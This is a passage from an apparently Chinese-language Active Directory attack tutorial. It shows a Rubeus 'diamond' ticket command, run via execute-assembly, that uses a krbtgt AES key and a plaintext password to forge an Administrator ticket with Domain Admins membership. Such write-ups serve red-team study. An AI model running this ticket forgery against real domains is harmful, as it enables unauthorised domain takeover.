 [![](assets/1707953845-912e856d8133b810863581bcd4450de2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040838-59b6d8aa-c462-1.png)

如果情况比较复杂，当前会话没有可用的 TGT，可以指定伪造的用户也可以显示指定用户名和密码，就不赘述了：

```bash
execute-assembly C:\tools\Rubeus.exe diamond /domain:endlessparadox.com /user:satoru /password:1QAZ2wsx123456 /dc:ad.endlessparadox.com /enctype:AES256 /krbkey:3a5ae89c92ae4f54b569ecfe622ea5c5b232c2fa8ad1d9b65e9ce07ef80e3d17 /ticketuser:Administrator /ticketuserid:500 /groups:512  /nowrap
```

[![](assets/1707953845-80b3284d8d38ec5829568024e50f32fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040853-627f4f12-c462-1.png)
